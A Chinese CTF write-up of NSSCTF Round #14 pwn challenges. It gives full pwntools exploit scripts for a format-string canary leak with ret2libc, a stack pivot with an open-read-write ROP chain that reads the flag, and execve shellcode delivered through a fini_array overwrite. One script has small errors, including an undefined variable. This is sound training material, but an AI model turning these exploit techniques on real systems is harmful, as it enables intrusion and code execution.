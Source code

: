 ```yaml
---
title: NSSCTFRound#14
date: 2023-07-31 09:53:08
tags: 
- "practice"
description: NSSCTFRound14_PwnWP
---
```


# NSSCTFRound#14

本次NSSCTFRound赛有点事情没有写，后续回来复现，估计当时也只能写出来两道题，还是太菜了，又在两位师傅的帮助提示下完成了四道题的复现，希望自己以后可以多多努力

## love

很简单的一道题格式化字符串，赛后群里面幽林师傅说本意是打STL结构体，但是这里被非预期了，直接泄露了canary然后ret2text就可以了

```python
from pwn import*
#p=process('./love')
p=remote('node3.anna.nssctf.cn',28435)
libc=ELF('./libc.so.6')
p.recvuntil('Toka\n')
pause()
p.sendline(b'%520c%9$n%17$p%15$p')
context.log_level='debug'
p.recvuntil('0x')
libc_base=int(p.recv(12),16)-libc.symbols['__libc_start_main']-243
print(hex(libc_base))
p.recvuntil('0x')
canary=int(p.recv(16),16)
print(hex(canary))
system=libc_base+libc.symbols['system']
binsh=libc_base+libc.search(b'/bin/sh\x00').__next__()

pop_rdi=0x00000000004013f3
ret=0x000000000040101a
payload=b'a'*(0x30-0x8)+p64(canary)*2+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)+p64(ret)

p.recvuntil(b'level')
p.sendline(payload)
p.interactive()
```

## rbp

这里给了一个0x10的溢出，可以利用它来进行栈迁移，同时程序开了沙箱，我们利用orw的ropchain就可以getshell

首先我们布栈为下面的样子

| stack   | content               |
| ------- | --------------------- |
| rsp     | 'a'*0x210             |
| rbp     | rbp->0x404500         |
| retaddr | 0x401292（read_func） |

这样子在退出的时候，程序会执行leave；ret

```shell
mov %rbp,%rsp
pop %rbp
ret
```

也没有正经写过栈迁移的博客，就在这里一步步分析了

首先把rbp的值给rsp，然后把栈顶给rbp，这样进行之后，我们的fake_stack就是下面的样子

| fake_stack   | content  |
| ------------ | -------- |
| 0x7fxxxxxxxx | xxxxxx   |
| 0x7fxxxxxxxx | xxxxxx   |
| rbp          | 0x404500 |

read函数刚开始会执行 *lea    rax, [rbp+buf]* 在本题中就是rbp-0x210,也就是read的地址是0x4042f0。我们gdb进去看一下对不对

![1690772404850](../images/1690772404850.png)

这是执行leave之前，可以看到rbp确实是我们布置的样子，接下来进行leave

![1690772668110](../images/1690772668110.png)

这里把rbp的值给了rsp之后，pop了rbp，所以rsp+8，到了retaddr的地方，符合我们的预期，接下来就是ret去执行read函数

![1690772864913](../images/1690772864913.png)

可以看到，read的buf地址确实是我们刚才计算的0x4042f0，然后读入我们的payload

| fake_stack | content               |
| ---------- | --------------------- |
| 0x4042f0   | pop_rdi               |
| 0x4042f8   | read_got              |
| 0x404300   | puts_plt              |
| 0x404308   | 0x4012ee(pop rbp;ret) |
| 0x4042310  | 0x404500(old rbp)     |
| 0x404318   | 0x401292(read)        |
| 0x404250   | 0x4042e8              |
| 0x404258   | leave;ret             |

之后程序同样会进行一次leave；ret

![1690773387519](../images/1690773387519.png)

这下会把rsp调到0x404508，rbp改为0x4042e8，然后ret，此时会pop rip，所以rsp++，rsp为0x404510，会再进行一次leave；ret，我们继续看

![1690773607490](../images/1690773607490.png)

继续执行leave；ret

rsp调到0x4042f0，接下来要pop rip，然后程序就去执行pop rdi；ret了

这样子我们可以获得libc的地址，然后进行pop_rbp,给rbp一个值，也就是oldrbp，之后再次进行read，写orw就好了，后续步骤和上面的是一样的

```python
from pwn import *

debug=0
if debug==1：
	context.log_level='debug'

p = process('./rbp')
elf = ELF('./rbp')
libc = ELF('./libc.so.6')

bss=0x404500
vuln_addr = 0x401270
leave_ret = 0x4012BF
read=0x401292
read_addr=bss-0x210
pop_rdi = 0x401353

p.recvuntil(b'it')
payload = b'a'*0x210 + p64(0x404500) + p64(read)
#pause()
p.send(payload)

payload = p64(pop_rdi) + p64(elf.got['read']) + p64(elf.plt['puts']) + p64(0x4012EE) + p64(bss) + p64(0x401292)
payload = payload.ljust(0x210) + p64(read_addr-0x8) + p64(leave_ret)
#pause()
p.send(payload)

libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\00')) - libc.symbols['read']
print(hex(base_addr))
open_addr = libc_base + libc.symbols['open']
read_addr = libc_base + libc.symbols['read']
write_addr = libc_base + libc.symbols['write']
syscall_addr = libc_base + 0x00000000000630a9
pop_rax = libc_base + 0x0000000000036174
pop_rsi = libc_base + 0x000000000002601f
pop_rdx = libc_base + 0x0000000000142c92

orw = b'./flag\00\00'
orw += p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(pop_rax) + p64(2) + p64(pop_rdi) + p64(0x4042f0) + p64(pop_rsi) + p64(0) + p64(syscall_addr)
orw += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(0x404600) + p64(pop_rdx) + p64(0x100) + p64(read_addr)
orw += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(0x404600) + p64(pop_rdx) + p64(0x100) + p64(write_addr)

payload = orw.ljust(0x210) + p64(read_addr) + p64(leave_ret)
#pause()
p.sendline(payload)


p.interactive()

```

## xor

这里参考了一些stone爷的exp，手动艾特stone-san ~~自己写脚本的功底实在是太烂了，有空要好好学一下python了~~

这道题相当于给了一个任意地址写，常规的方法是先改flag为负数，然后写一个shellcode就可以了，最后利用fini_array进行调用

```python
from pwn import*
p=process('./xor')
elf=ELF('./xor')
def write(addr,val):
	p.recvuntil('addr: ')
	p.sendline(str(hex(addr)).encode())
	p.recvuntil('value: ')
	p.sendline(str(hex(val)).encode())

flag_addr=0x600bcf
#context.log_level='debug'

shell_addr=0x600bd0
write(flag_addr,0xff)#
shellcode=b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
for i,k in enumerate(shellcode):
	write(shell_addr+i,k)

printf_got=elf.got['printf']
printf_plt=elf.plt['printf']
print(hex(printf_got))
print(hex(printf_plt))
fini_entry=0x400610
fini=0x600970
shell=p32(shell_addr^fini_entry)
for i,k in enumerate(shell):
	if k!=0:
		write(fini+i,k)
write(flag_addr,0xff)
p.interactive()
```



### Not solve：

记得在pwnable上3x17这道题xuanxuan的博客中好像说的是静态链接会调用fini，这道题不知道为什么，有大师傅说是ida里面看不出来自己去si一步步看看到exit中call了fini，后续要多研究一下

## readfile

感谢T1d师傅分享的方法

[T1d](https://he.tld1027.com/2023/07/30/nssctf-round14-pwn%e4%b8%93%e9%a1%b9-wp/)

我觉得属于是逻辑漏洞，很好的一道题